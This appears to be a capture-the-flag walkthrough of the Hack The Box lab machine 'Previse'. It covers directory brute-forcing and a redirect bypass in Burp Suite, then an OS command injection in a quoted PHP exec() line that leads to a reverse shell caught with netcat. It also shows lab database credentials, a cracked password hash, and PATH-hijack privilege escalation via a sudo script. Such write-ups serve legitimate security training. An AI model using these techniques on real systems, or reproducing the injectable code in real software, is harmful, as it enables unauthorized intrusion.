# Previse

The first thing we're going to do is run the Nmap scan 
```
nmap -sC -sV [IP]
```
<p align="center">

</p>

As a result of this Nmap scan, I discovered a port `22 SSH` and 80

<p align="center">

</p>

Next, I used `gobuster` to brute force the directory.

```bash
gobuster dir -u http://10.10.11.104 -w ./directory-list-2.3-medium.txt -x php
```

A list of routes can be found in the image below:

<p align="center">

</p>

Furthermore, I have discovered an interesting directory which is `nav.php`, while analyzing this report.

Therefore, I found that it is possible to `create an account` in this directory.

<p align="center">

</p>

This website allows the creation of accounts but this page has been redirected to `login.php`

So I created an account using tricks, and I'll explain to you how I did it.

To begin, I have opened the `burpsuite` tool to capture the request.

I have captured the request

next right-click the mouse you get the `do intercept` option and click the response to this request

<p align="center">

</p>

And the send `request to response`

You now get a response in the burpsuit and change the status code from `302` to `200 Ok`. 

This trick will change `302` to `200` in the request and send the response to the browser 

<p align="center">

</p>

Now you can see that we can `create an account` on the website.

Create a username and password according to your wishes.

<p align="center">

</p>

Next, we going to login into the website using a `username` and `password`

<p align="center">

</p>

> Now we are successfully login into the site 

Next, we clicked on the `file menu`, where we found `sitebackup.zip`, which is interesting.

<p align="center">

</p>

So download the file and extract it.

We got some interesting `PHP` files.

Further analyzing this I got two interesting files which are `config.php` and logs.php.

```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```
We get the username and password for the MySQL database in `config.php`.

Next to another file is `logs.php` in this file I got the one vulnerability which is `os command injection`.

```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";    
```

The file contains a delimiter and has not been sanitized properly, which allows us to execute `os command injections`.

So first go to that website and click the `management menu` and there is a `file log`.

Enter to file log you can able to see the delimiter. so capture this request in a burpsuit.

<p align="center">

</p>

Before that start the netcat
```
nc -nlvp 1234
```
So injected the downloaded payload in the delimiter which is shown in the image.

<p align="center">

</p>

Now you get the shell in the `netcat`.

upgrade shell : 
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
or
```
echo os.system('/bin/bash')
```
Next, we going to search username and password in the `MySQL` database 

We got one interesting file in the site backup folder which is `config.php`

In this file, there is a username and password, and a database also.
```
mysql -u root -D previse -p
```
Now it will ask the password so enter the password `mySQL_p@ssw0rd!:)`

Now you can able to enter it into in MySQL database.
<p align="center">

</p>
Yes the hash password of the user we just found. I decoded the hash code. I’ll post it here as an exception for friends with weak machines. 

`$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.` = `ilovecody112235!` 

Now that we have found our user information, let’s connect with the ssh port.
```
ssh m4lwhere@10.10.11.104
```
<p align="center">

</p>

## Privilege Escalation

Now, let’s see what command this user can run using `sudo`
> sudo -l

<p align="center">

</p>

On catting the file presented I got below result.
```shell
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```
Further analyzing the file I have found a vulnerability which is path injection
So now enter into the tmp folder.

Transfer the payload and the payload should be in the name of `gzip`.

before that set the listener in our local machine

> ncat -lvnp 4321

Next, go to the machine and enter the below command

First, enter the payload shown in the below image

<p align="center">

</p>

```shell
export PATH=/tmp:$PATH
```
OR 

```shell
export PATH=$(pwd):$PATH
```

Then enter the following command
> sudo /opt/scripts/access_backup.sh

And here we got root shell.

<p align="center">

</p>